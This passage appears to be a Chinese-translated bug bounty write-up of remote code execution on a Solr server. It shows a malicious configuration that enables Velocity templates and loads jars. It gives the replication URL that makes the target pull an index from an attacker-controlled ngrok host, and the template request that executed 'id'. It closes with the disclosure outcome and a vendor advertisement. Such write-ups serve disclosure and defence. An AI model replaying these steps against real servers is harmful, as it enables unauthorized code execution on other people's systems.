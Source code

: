   
一个<queryResponseWriter>  
元素，用于启用Velocity。  
  
  
一个复制请求处理器（replicationrequesthandler），配置为目标服务器当前主服务器的**从服务器**  
，这样就不会严重破坏目标服务器的复制机制：  
  
```
<lib dir="conf/" regex=".*\.jar"/> <queryResponseWriter name="velocity" class="solr.VelocityResponseWriter">    <str name="template.base.dir"></str></queryResponseWriter><requestHandler name="/replication" class="solr.ReplicationHandler">    <lst name="slave">        <str name="leaderUrl">https://leader.target.com:443/solr/de/</str>        <str name="pollInterval">00:00:20</str>    </lst></requestHandler>
```  
  
  
  
然后，笔者访问了以下URL来复制目标服务器：  
  
```
https://target.com/solr/de/replication?command=fetchindex&leaderUrl=https://<ngrok_url>/solr/hacefresk0/
```  
  
  
  
当在ngrok界面上看到相应的链接，确认复制成功后，笔者访问了目标服务器上的恶意"browse"模板："https://target.com/solr/de/select?q=\*&wt=velocity&v.template=browse".成功了！服务器成功执行了id  
命令！:D  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTiaLZvVnPXEED5JBmflm2oxo5djK0eXk43vlyED2efCMJ4m3vtGA6siabNjZxggsU0JoekX6tlT0ZA/640?wx_fmt=png&from=appmsg "")  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**八、报告与总结**  
  
****  
笔者向该公司的漏洞赏金计划（bugbountyprogram）报告了这个RCE，希望能获得可观的奖励。然而，几天后，他们决定将该报告标记为重复（Duplicated），这让笔者觉得非常奇怪。虽然笔者无法看到这个报告的原始版本，但它的漏洞严重程度被标记为9.1，并且已经开放了4个月。而且，在笔者提交报告后，/replication  
站点立刻被关闭，这让笔者怀疑之前的报告并没有真正证明RCE可行。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**九、相关链接**  
  
  
2025年2月26日 - web, bugbounties 。  
  
原文链接：https://www.hacefresko.com/posts/rce-on-solr-server-via-replication。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8KrXv9sZf93yt4huq2kARyZSgmdnic40GayohIYiaD2FAkkAqJehJSMtQ/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
山石网科是中国网络安全行业的技术创新领导厂商，由一批知名网络安全技术骨干于2007年创立，并以首批网络安全企业的身份，于2019年9月登陆科创板（股票简称：山石网科，股票代码：688030）。  
  
现阶段，山石网科掌握30项自主研发核心技术，申请540多项国内外专利。山石网科于2019年起，积极布局信创领域，致力于推动国内信息技术创新，并于2021年正式启动安全芯片战略。2023年进行自研ASIC安全芯片的技术研发，旨在通过自主创新，为用户提供更高效、更安全的网络安全保障。目前，山石网科已形成了具备“全息、量化、智能、协同”四大技术特点的涉及边界安全、云安全、数据安全、业务安全、内网安全、智能安全运营、安全服务、安全运维等八大类产品服务，50余个行业和场景的完整解决方案。  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_gif/NGIAw2Z6vnLzibrp7C4HmazCNIQXMJIRxPibycdiaNQCI4PNojUk3eYCQDZs6c5zNMUkq7yFNeYQIxicAV33eHNdFA/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
